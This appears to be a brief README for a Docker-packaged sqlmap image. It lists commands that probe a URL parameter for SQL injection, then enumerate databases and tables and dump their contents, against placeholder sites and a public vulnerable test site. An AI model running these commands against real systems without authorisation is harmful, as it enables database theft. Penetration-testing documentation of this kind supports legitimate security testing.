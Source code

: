 ## RUN USING THIS COMMAND
docker run --rm -it sqlmap:1.0 --url www.example.com/?id=1
## to find basic vulnerabilities
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10"

## to deeply inspect found exploitable point and get databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" --dbs

## list tables from found databas databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename --tables

## dump table tablename from database databasename
docker run --rm -it sqlmap:1.0 --url "http://www.site.com/checkout.php?id=10" -D databasename -T tablename --dump

## dump all stuff !!!!!!!!
docker run --rm -it sqlmap:1.0 --url http://testphp.vulnweb.com/listproducts.php?cat=1 --dump-all

### original script and command
https://github.com/paoloo/sqlmap
